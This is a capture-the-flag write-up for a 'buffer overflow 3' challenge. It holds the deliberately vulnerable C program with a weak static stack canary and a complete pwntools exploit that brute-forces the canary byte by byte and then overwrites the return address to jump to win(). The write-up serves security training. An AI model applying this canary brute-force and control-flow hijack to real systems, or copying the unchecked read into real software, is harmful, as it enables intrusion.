 buffer overflow 3 - Points: 450
===========

## Description

>It looks like Dr. Xernon added a stack canary to this program to protect against buffer overflows. Do you think you can bypass the protection and get the flag?

## Hint:

> * Maybe there's a smart way to brute-force the canary?

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 32
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("Canary is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("*** Stack Smashing Detected *** : Canary Value Corrupt!\n");
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  int i;
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

## Useful Information

```
$nm canary_bypass|grep win
080486eb T win
```

## Exploit

# **REQUIRE** :[Pwntools Python](https://github.com/Gallopsled/pwntools)

> 1. Overflowing the canary letter after letter and check error message.
> 2. Overflowing EIP with Win() Address

```python
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
from pwn import *
import re

#To Complete
user=""
password=""
host=""

path_exec="/problems/buffer-overflow-3_1_2e6726e5326a80f8f5a9c350284e6c7f"
Name_prog="canary_bypass"
sh = ssh(host=host,user=user,password=password).run("sh")#process(path_exec+"/vuln",cwd=path_exec)
sh.sendline("cd "+path_exec)

pay2=32*"A"
pay1=str(len(pay2))
canary=""

win=p32(0x80486eb)
sh.recv(4096)
sh.recv(4096)
for a in range(4):
    print("TEST LETTER %d" % a)
    for b in range(1,256):
        print("TEST SUB-LETTER %c" % b)
        sh.sendline("./vuln")
        print("How many = "+sh.recv())
        sh.sendline(str(len(pay2+canary)+1))
        print("Input = "+sh.recv())
        sh.sendline(pay2+canary+(chr(b)))
        output=sh.recv()
        print("OUTPUT = "+output)

        if not re.search("Corrupt",output):
            print("FOUND %d" % b)
            canary+=chr(b)
            break
print("CANARY = "+canary)
payload=pay2+canary+"A"*16+win
sh.sendline("./vuln")
sh.recv()
sh.sendline(str(len(payload)))
sh.recv()
sh.sendline(payload)
print("FLAG "+sh.recv())
sh.close()
```
